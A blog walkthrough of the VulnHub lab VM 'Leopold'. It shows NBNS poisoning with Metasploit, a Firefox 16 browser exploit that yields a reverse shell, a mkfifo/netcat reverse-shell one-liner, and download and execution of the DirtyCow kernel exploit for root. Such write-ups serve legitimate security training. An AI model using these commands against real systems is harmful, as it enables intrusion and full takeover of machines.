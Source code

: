 ```yaml
---
layout: post
title: Walkthrough of Leopold
published: true
categories: [vm]
tags: [vulnhub,sp,leopold]
fullview: false
description: A walkthrough of the leopold VM on VulnHub
comments: true
---
```


# Intro

Leopold was the second machine I created for my <a href="https://www.vulnhub.com/series/sp,189/">SP series</a> in late 2018, and I think it's the most popular of my machines. There are many walkthroughs out there for Leopold, but I wanted to show how I intended to solve it, but I have also made the walkthrough from an objective standpoint. Leopold is very different from any other VM that I have seen on VulnHub due to it's client-side aspect and will teach a real-world attack vector commonly used in penetration tests. Lastly, I would personally view this VM as easy in difficulty, but I have seen people complain about this. However, I think this is due to the unfamiliarity with this kind of exploitation.

## Enumeration

After finding the server on the network, we do a port scan to determine the services running:

```bash
$ nmap -sTV 192.168.0.31 -n -p-
---
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
---
```

The smb service doesn't yield anything useful, other than that it's a Linux machine, due to the Samba implementation of SMB. Where do we go from here? Let's fire up Wireshark to see if we can learn anything from there.

After some minutes we can see that there is a NBNS request for DISNEYWORLD made from leopold:

```bash
192.168.0.31 192.168.0.255 NBNS 92 Name query NB DISNEYWORLD<00>
```

## Setting up Man-in-the-middle

Netbios Name Service (NBNS) is like DNS, but simpler and decentralized. Instead of asking a server for hostname resolution, it sends out a broadcast asking the whole network if they know which IP-address a hostname resolves to. It is usually used together with LLMNR and mDNS as backup if a DNS request would fail. These protocols trusts the answers blindly, which makes them optimal for poisoning attacks to reroute the communication through our attacking machine.

There are multiple tools we can use for this, but we will stick to a Metasploit module which was made exactly for this.

Open Metasploit and use the auxiliary/spoof/nbns/nbns_response module. Set REGXP to "disneyworld" and SPOOFIP to your own attacking IP address. Keep Wireshark before writing "run" and hitting enter to start the module.

```bash
msf5 auxiliary(spoof/nbns/nbns_response) > options 

Module options (auxiliary/spoof/nbns/nbns_response):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INTERFACE                   no        The name of the interface
   REGEX      disneyworld      yes       Regex applied to the NB Name to determine if spoofed reply is sent
   SPOOFIP    192.168.0.32     yes       IP address with which to poison responses
   TIMEOUT    500              yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Run NBNS spoofing service


msf5 auxiliary(spoof/nbns/nbns_response) > run
[*] Auxiliary module running as background job 0.

[*] NBNS Spoofer started. Listening for NBNS requests with REGEX "disneyworld" ...
msf5 auxiliary(spoof/nbns/nbns_response) > 
```

Soon we will see the following output in Metasploit, meaning that leopold now thinks that the DISNEYWORLD hostname is resolving to our attacking computer.

```bash
[+] 192.168.0.31     nbns - DISNEYWORLD matches regex, responding with 192.168.0.32```

We will also soon after see some TCP requests to port 80 from leopold to our attacking machine in Wireshark. However, we don't have anything running on port 80. We can fire up a netcat listener to see the request.

```bash
root@kali:~# nc -nlvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.0.31.
Ncat: Connection from 192.168.0.31:51910.
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

Here we have the request leopold is making. There is two key pieces of information we can gather from this, namely the user-agent string and the endpoint he is trying to reach, which is the root directory. After a quick web search on the user-agent string, we learn that leopold is using Firefox 16.

## Initial Access

Searching for "firefox" in searchsploit gives many possible alternatives and after some research, the "toString console.time Privileged JavaScript Injection" exploit seems to be a match for the Firefox version in question and there is even a Metasploit module for it. The module sets up a webserver on the attacking machine to serve the browser exploit to visitors. Let's change the SRVPORT to 80, which was the port leopold was trying to reach, and URIPATH to "/", before running it.

```bash
msf5 exploit(multi/browser/firefox_tostring_console_injection) > options 

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.32     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
```

After some minutes we get a shell:

```bash
[*] 192.168.0.31     firefox_tostring_console_injection - Sending HTML response to 192.168.0.31
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.0.32:4444 -> 192.168.0.31:36555) at 2020-09-15 17:15:05 -0400
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)
```

The shell is not stable and dies after some mintues. To fix this, we can create a new shell. Open a new netcat listener on port 3333 on the attacking machine and write the code below in the current shell. Remember to change the attacking IP address.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.32 3333 >/tmp/f```


## Priv Esc

Due to the old Linux kernel version, we can try the goto DirtyCow exploit. Simply download, rename and host the source code on the attacking machine:

```bash
root@kali:~# wget https://www.exploit-db.com/download/40839
root@kali:~# mv 40839 40839.c
root@kali:~# python3 -m http.server 8080
```

Download, compile and run the exploit on the target host, from the remote leopold shell:

```bash
$ wget http://192.168.0.32
$ gcc 40839.c -o cow -pthread -lcrypt
$ ./cow
```

Enter a password for the firefart root user and wait for the exploit to finish, before switching to the firefart user:

```bash
$ su firefart
$ id
$ uid=0(firefart) gid=0(root) groups=0(root)
```

## Summary

Leopold is a workstation and a user trying to browse the Internet. What is most likely a typo in the address bar of the web browser, results in DNS failing and the computer resorts to alternative name resolution systems, which are open for man-in-the-middle attacks. From here we poisoned the name resolution request and redirected Leopold's traffic to our attacking computer which served a browser exploit, gaining us remote access to Leopold's computer. Using a well known kernel exploit, we managed to gain administrative rights to his computer.  
  
This attack vector is being actively used in real world penetration tests, with tools such as Responder, that works with a lot of different protocols and sets up various fake services, such as SMB to steal domain credentials and hashes.
